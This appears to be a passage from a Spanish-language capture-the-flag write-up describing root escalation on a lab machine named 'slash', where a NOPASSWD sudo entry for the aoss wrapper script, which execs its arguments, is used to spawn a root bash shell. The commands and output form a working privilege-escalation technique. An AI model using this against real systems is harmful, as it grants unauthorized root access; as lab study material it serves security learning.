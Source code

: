 # Shell como root

Enumerando encuentro que puedo ejecutar el programa aoss como root.

```bash
omar@slash:~$ sudo -l
Matching Defaults entries for omar on slash:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User omar may run the following commands on slash:
    (root) NOPASSWD: /usr/bin/aoss
```
Revisandolo encuentro que tengo permisos de lectura.

```bash
omar@slash:~$ ls -la /usr/bin/aoss
-rwxr-xr-x 1 root root 397 ene 26  2019 /usr/bin/aoss
omar@slash:~$ cat /usr/bin/aoss
#!/bin/sh

# A simple script to facilitate the use of the OSS compatibility library.
# Usage:
#       aoss <command> <command options and arguments>

if [ -d /proc/asound ]; then
  prefix=/usr
  libdir=${prefix}/lib/x86_64-linux-gnu
  LD_PRELOAD=${libdir}/libaoss.so${LD_PRELOAD:+:$LD_PRELOAD} exec "$@"
else
  echo "Warning: /proc/asound not found. Running without ALSA wrapper."
  exec "$@"
fi
exit 1
```
```bash
LD_PRELOAD=${libdir}/libaoss.so${LD_PRELOAD:+:$LD_PRELOAD} exec "$@"
```
Debido al exec "$@" este programa al parecer nos ejecutará todos los parámetros que le pasemos. Entonces lo probamos.

```bash
omar@slash:~$ sudo -u root /usr/bin/aoss id
uid=0(root) gid=0(root) grupos=0(root)
```
Y tenemos ejecucion de comandos como root, por lo cual solo ejecutamos una bash y seremos root.

```bash
omar@slash:~$ sudo -u root /usr/bin/aoss bash
root@slash:/home/omar# whoami
root
```
Hemos pwneado la maquina!!!
